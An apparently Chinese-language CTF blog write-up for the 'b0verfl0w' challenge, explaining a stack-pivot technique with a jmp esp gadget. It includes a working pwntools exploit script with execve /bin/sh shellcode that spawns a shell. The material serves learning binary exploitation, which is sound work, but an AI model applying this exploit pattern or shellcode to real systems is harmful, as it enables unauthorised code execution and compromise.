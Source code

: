 ```yaml
---
title: b0verfl0w
date: 2018-03-18 23:11:36
draft: false
---
```

stack privot 题目
溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack privot。

基本利用思路如下

利用栈溢出布置shellcode
控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

`ROPgadget --binary b0verfl0w --only 'jmp|ret'  `

size(shellcode+padding)=0x20
size(fake ebp)=0x4
size(0x08048504)=0x4
所以我们最后一段需要执行的指令就是

```
sub 0x28,esp
jmp esp

```
Memory layout:
| Shellcode | Offset | 0x08048504 | Shellcode to perform stack pivoting | 

```
from pwn import *
sh = process('./b0verfl0w')
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
padding = 'a'*13
jmp_esp = 0x08048504
sub_esp_jmp = asm('sub esp,0x28;jmp esp')
payload = shellcode+padding+p32(jmp_esp)+sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```
我不明白既然有了 asm('sub esp,0x28;jmp esp') 为什么还需要直接跳转到esp的gadgets。
解释：我们就可以借由jmp esp将执行流转移到栈上执行。而转移到栈上执行后，我们还需要对esp减上偏移(在返回地址时esp已经和ebp指向同一个地址)，使之转移到我们的buf中继续执行，而buf中我们事先就输入好了shellcode，那么我们在劫持完成后便可以获得一个shell
